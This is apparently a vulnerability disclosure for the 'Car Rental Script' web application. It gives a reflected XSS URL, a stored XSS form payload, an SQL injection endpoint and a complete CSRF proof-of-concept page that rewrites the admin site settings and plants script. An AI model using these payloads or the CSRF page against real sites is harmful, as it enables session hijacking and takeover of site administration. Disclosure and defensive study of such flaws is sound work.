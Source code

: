### Car Rental Script- the lastest version - SQL Injection/XSS/CSRF

Well,  when I pentest the official demo site of Car Rental Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

```
http://travelbookingscript.com/demo/taxibooking_new/admin/areaedit.php?carid=1%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/XSS/)%3E123%3C%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Car-Rental-Script/xss1.png)


##### Stored-XSS 


```
http://travelbookingscript.com/demo/taxibooking_new/admin/sitesettings.php
```

POST parameters:

```
------WebKitFormBoundary908AMAzKLBTagFpr
Content-Disposition: form-data; name="websitename"

Javana rent cars'"><svg/onload=alert(/XSS/)><'"

```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Car-Rental-Script/xss2.png)


#### SQL Injection:

##### sqli
```
http://travelbookingscript.com/demo/taxibooking_new/admin/carlistedit.php?carid=36
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Car-Rental-Script/sqli.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/travelbookingscript.com\/demo\/taxibooking_new\/admin\/sitesettings.php?succ", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary908AMAzKLBTagFpr");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"websitename\"\r\n" + 
          "\r\n" + 
          "Javana rent cars\'\"\x3e\x3csvg/onload=alert(/XSS/)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"title\"\r\n" + 
          "\r\n" + 
          "Javana rent cars script\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"admin_mailid\"\r\n" + 
          "\r\n" + 
          "javanarentcars.com\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"keyword\"\r\n" + 
          "\r\n" + 
          "Javanarentcars\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"description\"\r\n" + 
          "\r\n" + 
          "Car Rental \r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"websiteurl\"\r\n" + 
          "\r\n" + 
          "http://www.javanarentcars.co.id\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"adminmobi\"\r\n" + 
          "\r\n" + 
          "98413006621\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"fbook\"\r\n" + 
          "\r\n" + 
          "https://www.facebook.com/javanarentcars\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"twtr\"\r\n" + 
          "\r\n" + 
          "https://twitter.com/javanarentcars\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"google\"\r\n" + 
          "\r\n" + 
          "https://accounts.google.com/#\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"smtpserver\"\r\n" + 
          "\r\n" + 
          "mail.i-netsolution.com\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"smtpuser\"\r\n" + 
          "\r\n" + 
          "user\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"smtppass\"\r\n" + 
          "\r\n" + 
          "23001\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"logo\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"oldlogo\"\r\n" + 
          "\r\n" + 
          "1510728426rent cars.jpg\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr\r\n" + 
          "Content-Disposition: form-data; name=\"submit\"\r\n" + 
          "\r\n" + 
          "Submit\r\n" + 
          "------WebKitFormBoundary908AMAzKLBTagFpr--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the admin or the user panel.

